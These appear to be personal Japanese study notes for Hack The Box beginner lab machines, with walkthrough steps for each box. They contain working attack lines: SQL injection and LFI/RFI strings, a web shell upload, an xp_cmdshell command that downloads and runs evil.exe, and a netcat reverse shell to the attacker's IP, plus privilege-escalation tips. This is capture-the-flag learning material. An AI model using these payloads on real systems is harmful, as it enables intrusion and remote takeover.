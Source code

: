 ##sudo nmap -sV -p- -sC -sS 10.129.55.125 -min-rate 5000

# Meow

- ICMP( Internet Control Message Protocol)echoとは、データを送って相手にも同じデータを遅らせることで、正常に通信できているか確認する（PING）
- ```telnet 10.10.10.10 ```  でrootユーザーの場合、パスワード無しでログイン
# Fawn
- FTP（File Transfer Protocol）リスニングポートは２１
- SFTP (Secure File Transfer Protocol) 安全なFTP
- vsftpd　LinuxなどのUNIX系OSでよく利用されるFTPサーバ
- ftp -h ヘルプコマンド
- anonymous FTPサーバーでアカウントなしでログイン
- 230　FTPログイン成功（Login successful）
- dir ls ファイル一覧コマンド
- get 元ファイルパス　送り先パス　でファイルをダウンロード
# Dancing
- SMB（Server Message Block）とは、Microsoft Windowsのネットワーク上においてファイルやプリンターの共有などを行なうための、 
- Microsoft独自の通信プロトコル
-  445port SMB（microsoft-ds）
- smbclient -hでヘルプ -L 10.10.10.10でホストのリストを一覧
- smbclient //hostip/ディレクトリ　```mbclient //10.129.94.140/Workshares  ```
# Reddmer
- Redis　 NoSQLデータベースの一つ（オープンソフトウェあ）
- ```redis-cli -h 10.10.10.10```  で接続、infoでサーバ情報取得
- keys * でキー一覧を表示、type キーの名前でキーのデータ型が分かる
- select　データベース名

# Appointment
- SQL「Structured Query Language」、injection
- HTTPS（443port）、HTTP（80port）
- 404not found　はエラーメッセージ
- [1’ or ‘1’=’1’;-- ]最後にスペース、インジェクションコマンド
- [#]はSQLのコメントアウト
# Sequel
- ```mysql -h 10.10.10.10 -u root``` で接続できる
- select * FROM table名、use データベース名、show databases;、show tables;
# Crocodile
- namp -sCオプションはnmapのオリジナルのスクリプトを使用して脆弱性診断を行う
- vsftpdは、Linuxを含むUnixライクなシステム用のFTPサーバー
- ftp 10.10.10.10 でユーザー名はanonymous
- ```gobuster dir -u http://10.129.181.244/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x php```
# Responder
- ```../../. ./../../../../../windows/system32/drivers/etc/hosts```　LFI
- ```//10.10.14.6/somefile```　RFI
- responder -Iでインタフェース指定、-iでIPアドレス指定
リスニングモードにし、ウェブページを更新すると、勝手にハッシュ値を探す
- 5985port ```evil-winrm -u Administrator -p 'badminton' -i 10.129.140.152```
- WinRMとは、Windows ServerのWindows PowerShellを遠隔から操作する機能
- hash解析 ```john --wordlist=/home/kali/Downloads/rockyou.txt /home/kali/hash```
- ```aws s3 cp --endpoint-url http://s3.thetoppers.htb   s3://thetoppers.htb/index.php /home/kali/Desktop/```
- ```aws s3 --endpoint=http://s3.thetoppers.htb cp ./Desktop/shell.php s3://thetoppers.htb```
- ```aws s3 ls   --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb```
先に/etc/hostsにs3.thetoppersを登録しておかないとAWSにたどり着けない
- ```PS C:\Users\denet> aws s3 cp s3://piyopiyo-s3-bucket/index.html .\Desktop\```
download: ```s3://piyopiyo-s3-bucket/index.html to Desktop\index.html```
- MD5　https://hashtoolkit.com/decrypt-hash/?hash=2cb42f8734ea607eefed3b70af13bbd3

Archetype
- ```smbclient -L //10.129.95.187```　でsmb内をリストで表示　―Nでパスワード無し
- ```smbclient //10.129.95.187/backups -N```  でsmb: \> lsとなるからget filenameでダウンロード
- mssqlclient.pyはMicrosoft SQL Server への認証された接続を確立するためインパケット
- locateでmssqlclientを探し実行。
```/usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth```
- kaliで目的のファイルがある階層に行き、python -m http.server 80で起動し
```enable_xp_cmdshell```
```xp_cmdshell "powershell -c cd ../;  wget 10.10.15.189/evil.exe; ./evil.exe"```
を実行するとファイルがダウンロードされる。
次に、metasploit1を起動し、
```multi/handler,set lhost set payload windows/meterpreter/reverse_tcp``` で
Xp_cmdshell で./evil.exeを入力し実行すると接続が確立。
Upload winPEASx64で送り、shellで実行すると情報が出てくる。パスワードがあるので、evil-winrmを使って、
```evil-winrm -u Administrator -p 'MEGACORP_4dm1n!!' -i 10.129.95.187```
をすると実行。あとはファイルを探すだけ。たいていdesktopにある
# Oopsie
- proxyはWebトラフィックを傍受できる
- HTMLソースを見て、別のページがないか探す
- 管理者アカウントのIDなどが分かったらCookieにIDを登録すると偽れる
- gobusterでサブディレクトリを検索
- 大抵ウェブログイン情報は、www/html/の下位層の最初gobusterで見つからなかったところにある。今回の場合はdb.php
- find / -group bugtracker でファイルを探す
- SUID（Set User ID）とは、実行権のあるファイルに設定される特殊なアクセス権
# Vaccine
- zip2john -w パスワード付きＺｉｐをクラック、johnでハッシュ解析
- ```sqlmap -r txt --os-shell```　でtxtファイルには、burpsuiteのgetリクエストの内容をそのままにしたもの、手動でコピペするとerrorになるからファイルとして出力する
- sqlmapを実行するとshellが返ってくる。
- ```Nc ―lvnp 1337```で
- Phpリバースシェル ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.186 1337 >/tmp/f```　を実行すると確立する。
- ```python3 -c 'import pty;pty.spawn("/bin/bash");'``` を実行するとshellの形式になる
- index.phpファイルを探すか ```grep -i -R “pass”``` でパスワードを探しsshにログイン
Sudo -lを実行すると vi….がroot権限で実行されるので、
Gtfobinsと検索し、shell,viに関連するコマンドを使用する。この時[i]を押して挿入モードにせず直接入力する。
# Unified
-「GTFOBins」は、ローカルのセキュリティ制限を回避するため利用できるバイナリのリストです。権限昇格
- cronで自動起動設定、詳しくはネットで
- /dev/nullは何もない場所で、ここにリンクすると出力や、ファイルをなかったことに
できる。-group bugtracker /dev/nullとすると、このコマンドの出力を捨てられる。

- /tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh-i 2>&1/nc 10.10.15.33 1337>/tmp/f　について
https://devlights.hatenablog.com/entry/2021/02/14/210033


  Gobuster -xは拡張子を検索するオプションだけど、でてこないので、というより、今の環境だとVPN接続が切れて、エラーになるので、先にgobuster dir -u -wでファイル検索して、結果のファイル名をコピーして、リストにしてそのリストを設定した後、拡張子を設定する。
 ``` 
  └─$ sudo gobuster vhost -u http://thetoppers.htb/ -w SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
  Gobuster v3.5
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  [+] Url:             http://thetoppers.htb/
  [+] Method:          GET
  [+] Threads:         10
  [+] Wordlist:        SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt
  [+] User Agent:      gobuster/3.5
  [+] Timeout:         10s
  [+] Append Domain:   true
  2023/08/12 09:50:52 Starting gobuster in VHOST enumeration mode
  Found: s3.thetoppers.htb Status: 404 [Size: 21]
  ```
  vhostでサブディレクりを探せる。dnsだと探せなかった。fuzzはhttp://http://thettoprs.htbとなってよくわからない
  --append-domainとしないと、そのままwordリストのみのドメインで探すことになる。
  -uはurlで
  
  awscliがインストールできなかったがsudo apt --fix-broken install を実行したらインストールできた。
  nikto の/var/lib/nikto/nikto.conf.defaultのFAILURESを20から２００に変更した。
  

